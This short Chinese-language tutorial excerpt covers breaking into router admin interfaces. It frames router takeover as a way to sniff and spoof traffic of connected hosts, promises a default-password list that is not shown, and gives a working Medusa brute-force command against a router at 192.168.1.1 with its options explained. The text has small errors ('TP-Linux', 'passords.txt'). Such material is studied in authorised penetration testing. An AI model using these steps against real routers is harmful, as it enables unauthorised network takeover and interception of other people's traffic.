

## 路由器密码破解
- 路由器是一个网络的核心设备。一旦控制路由器，就很容易对连接该路由器的主机实施各种数据嗅探和欺骗攻击。大部分路由器都是使用用户名/密码的身份验证方式。而每
个路由器的管理界面都有初始用户名和密码。由于一些管理员用户的失误，可能会使用初始密码或者弱密码

#### 路由器初始密码
- 大部分路由器都有初始用户名和密码。为了方便用户实施路由器密码破解，下面将列出常见的路由器初始用户名和密码



#### 使用Medusa工具
Medusa 是一款开源的暴力密码破解工具，可以在线破解多种密码，如FTP、HTTP、IMAP和MYSQL 等。其中，路由器的管理界面是基于HTTP协议的，所以用户可以使用Medusa工具实施密码破解。
```c
medusa -h [IP] -U [user file] -P [pass file] -M http -e ns
//以上语法中的选项及含义如下：
//- h：指定目标主机的地址
//- u：指定尝试破解的用户名
//- U：指定使用的用户名文件
//- p：指定尝试破解的密码
//- P：指定使用的密码文件
//- M：指定要破解的模块类型
//- e：尝试空密码

//暴力破解 TP-Linux 路由器的登录用户名和密码
root@daxueba:~# medusa -h 192.168.1.1 -u admin -P passords.txt -M http -e ns
```
